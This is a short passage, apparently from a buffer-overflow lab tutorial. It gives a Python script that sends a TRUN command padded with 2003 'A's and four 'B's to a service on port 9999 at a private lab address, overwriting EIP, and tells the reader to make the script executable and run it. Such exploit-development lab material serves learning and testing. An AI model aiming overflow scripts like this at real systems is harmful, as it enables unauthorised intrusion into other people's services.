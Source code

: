 We are going to be using a script to overwrite the `EIP` 

```python
#!/usr/bin/python
 
import sys, socket

# replace 2003 with the offset you got 
shellcode = "A" * 2003 + "B" * 4

try: 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.0.106',9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()

except:
        print ("Error Connecting to the server")
        sys.exit()
```

- Save the script and grant executable permissions, then run it

